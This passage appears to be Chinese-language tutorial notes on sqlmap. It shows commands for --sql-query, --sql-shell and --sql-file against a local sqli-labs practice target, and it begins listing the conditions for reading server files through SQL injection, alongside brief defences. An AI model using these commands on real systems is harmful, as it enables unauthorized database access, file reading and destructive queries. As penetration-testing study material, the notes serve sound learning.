 ###### ①--sql-query

* 直接**执行指定的sql语句**

```
sqlmap -u [url] --sql-query="sql语句"

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-query="select version()"
```

###### ②--sql-shell

* 直接获得*交互式的SQL**命令shell*** (用于执行update、delete、drop、alert等语句)
* **执行的语句与注入点的类型有关**
* 输入***X或者Q***退出交互命令行

```
sqlmap -u [URL] --sql-shell

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-shell
```

###### ③--sql-file

* 直接执行sql文件中的语句

```
sqlmap -u [URL] --sql-file=sql文件

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-file="D:\NetTools\sqlmap\sql_file.sql"

sql_file.sql内容：
select version();
select @@datadir;	//输出mysql存放数据的路径
```

#### (4). 文件操作

* 危害
  * 存在SQL注入漏洞
  *  **root权限**
  * 可以进行文件**读写操作**
  * 知道**绝对路径**
* 防御
  * 输入时对敏感语句过滤
  * my.ini中配置secure_file_priv=null

##### a. 读文件

###### ①满足条件

1. **secure_file_priv**要么禁用，要么设置了路径
2. mysql有对某个**目录读写**的权限
3. 知道**绝对路径**
4. 文件**必须在服务器上存在**
5. max_allowed_packed     //读写文件最大的字节数
